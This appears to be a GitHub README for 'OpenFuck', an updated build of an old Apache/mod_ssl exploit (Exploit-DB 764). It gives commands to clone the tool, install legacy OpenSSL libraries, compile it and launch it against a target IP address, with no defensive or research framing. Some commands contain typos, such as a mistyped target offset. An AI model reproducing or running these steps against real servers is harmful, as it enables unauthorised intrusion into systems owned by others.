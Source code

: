 # OpenFuck
This is a tool to exploit apache server

## Usage
This Exploit (https://www.exploit-db.com/exploits/764/) is outdated.

Below you can take updated exploit file
1. Download 764.c
~~~
git clone https://github.com/dillu345/OpenFuck.git
~~~
2. Install libssl-dev & libssl1.0dev
~~~
apt install libssl-dev
apt install libssl1.0 dev
~~~

3. Now Compile
~~~
gcc -o OpenFuck 764.c -lcrypto
~~~
4. Run the exploit
~~~
./OpenFuck
~~~
5. See which service you want to exploit. For example if you need to exploit Red Hat Linux, using apache version 1.3.20.
~~~
./OpenFuck 0*6b [IP Address] -c 50
~~~
